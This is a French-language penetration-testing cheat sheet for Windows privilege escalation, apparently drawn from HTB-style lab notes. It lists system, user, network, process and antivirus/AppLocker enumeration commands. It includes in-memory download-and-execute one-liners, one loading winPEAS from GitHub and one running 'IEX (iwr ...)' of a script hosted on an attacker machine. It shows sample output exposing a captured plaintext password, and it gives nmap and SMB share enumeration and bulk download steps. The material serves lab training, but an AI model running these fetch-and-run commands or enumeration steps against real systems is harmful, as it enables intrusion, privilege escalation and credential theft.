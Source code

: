 # 01-Énumération Initiale

### Énumération Initiale

Winpeas téléchargement et utilisation :

{% embed url="https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe" %}

```sh
# Obtenir la dernière version
$url = "https://github.com/peass-ng/PEASS-ng/releases/latest/download/winPEASany_ofs.exe"

# Ligne de commande unique pour télécharger et exécuter winPEASany depuis la mémoire dans un shell PS
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")
```

#### Informations Système

```powershell
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
wmic qfe list
[environment]::OSVersion.Version
Get-HotFix | ft -AutoSize
wmic product get name,version
```

#### Énumération Utilisateurs & Groupes

```powershell
whoami
whoami /priv
whoami /groups
net user
net user [username]
net localgroup
net localgroup administrators
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember administrators
```

#### Énumération Réseau

```powershell
ipconfig /all
arp -a
route print
netstat -ano
Get-NetTCPConnection
Get-NetIPConfiguration | ft InterfaceAlias,InterfaceDescription,IPv4Address
Get-DnsClientServerAddress -AddressFamily IPv4 | ft
```

#### Énumération des Processus

```powershell
tasklist /svc
Get-Process
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
wmic service list brief
```

#### Surveillance des Lignes de Commande des Processus

Nous pouvons rechercher les lignes de commande des processus en utilisant un script comme celui ci-dessous. Il capture les lignes de commande des processus toutes les deux secondes.

```powershell
while($true)
{
  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2
}
```

Nous pouvons héberger le script sur notre machine d'attaque et l'exécuter sur l'hôte cible comme suit :

```powershell-session
PS C:\htb> IEX (iwr 'http://10.10.10.205/procmon.ps1')
...
@{CommandLine=net use T: \\sql02\backups /user:inlanefreight\sqlsvc My4dm1nP@s5w0Rd}       =>
...
```

#### Énumération AppLocker & Antivirus

```powershell
Get-MpComputerStatus
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
Get-AppLockerPolicy -Local | Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone
sc query windefend
netsh advfirewall show currentprofile
```

### Techniques d'élévation de privilèges Windows dans des Box (Exemples d'Énumération)

#### Analyse des services et ports ouverts

Exemple (Legacy) :

```bash
# Utiliser Nmap avec des scripts de vulnérabilité
nmap -p 445 --script vuln <IP>

# Identifier les services vulnérables
nmap -sV -p <PORT> <IP>
```

#### Énumération des partages SMB

Exemple (Nest) :

```bash
# Énumération des partages avec smbmap
smbmap -H <IP> -u null

# Connexion anonyme avec smbclient
smbclient -N //<IP>/<SHARE>

# Téléchargement récursif de fichiers
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
``` 